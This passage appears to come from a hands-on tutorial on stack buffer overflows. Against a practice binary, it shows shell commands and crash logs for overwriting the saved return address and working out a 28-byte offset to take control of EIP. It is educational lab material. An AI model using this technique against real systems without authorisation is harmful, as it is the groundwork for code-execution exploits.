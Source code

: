 ```
               |            |  |                             |
               |------------|  |                             |
               |            |  |                             |
        EBP => |------------|  |                             |
               | saved EBP  |  |                             |
               |------------| =                              |
               | saved EIP  |  |                             |
               |------------|  |                             |
parameter   {  |  &argv[1]  |   > main() stack frame         |
               |------------|  |                             |
               |    ...     |  |                             V
               |------------| -                        higher address
```

Let's see what happens when we supply an argument longer than 16 bytes.

```shell
ubuntu@ubuntu-xenial:/vagrant/lessons/4_buffer_overflow_stack/build$ ./2_echo AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault (core dumped)
ubuntu@ubuntu-xenial:/vagrant/lessons/4_buffer_overflow_stack/build$
```

It causes a segmentation fault. Let's check the kernel log for the
segmentation fault error.

```
ubuntu@ubuntu-xenial:/vagrant/lessons/4_buffer_overflow_stack/build$ dmesg | tail -n 1
[35714.281904] 2_echo[9812]: segfault at 41414141 ip 0000000041414141 sp 00000000ffffcf20 error 14 in libc-2.23.so[f7e04000+1af000]
ubuntu@ubuntu-xenial:/vagrant/lessons/4_buffer_overflow_stack/build$
```

The instruction pointer is overwritten with `0x41414141` which is
`AAAA` in hexadecimal.

To gain control of the instruction pointer, we need to find the offset of the
saved return address from the buffer. From the disasembly, the buffer is at
`-0x18(%ebp)`, 24 bytes above the base pointer. The saved return address
is at `0x4(%ebp)`, 4 bytes below the base pointer. Hence, the offset is 28
bytes.

Verifying the offset:

```shell
ubuntu@ubuntu-xenial:/vagrant/lessons/4_buffer_overflow_stack/build$ ./2_echo `python -c 'print "A" * 28 + "BBBB"'`
AAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
Segmentation fault (core dumped)
ubuntu@ubuntu-xenial:/vagrant/lessons/4_buffer_overflow_stack/build$ dmesg | tail -n 1
[35773.169041] 2_echo[9835]: segfault at 42424242 ip 0000000042424242 sp 00000000ffffcf20 error 14 in libc-2.23.so[f7e04000+1af000]
ubuntu@ubuntu-xenial:/vagrant/lessons/4_buffer_overflow_stack/build$
```


[1]: ./build/1_grade
[2]: ./src/1_grade.c
[3]: ./build/2_echo
[4]: ./src/2_echo.c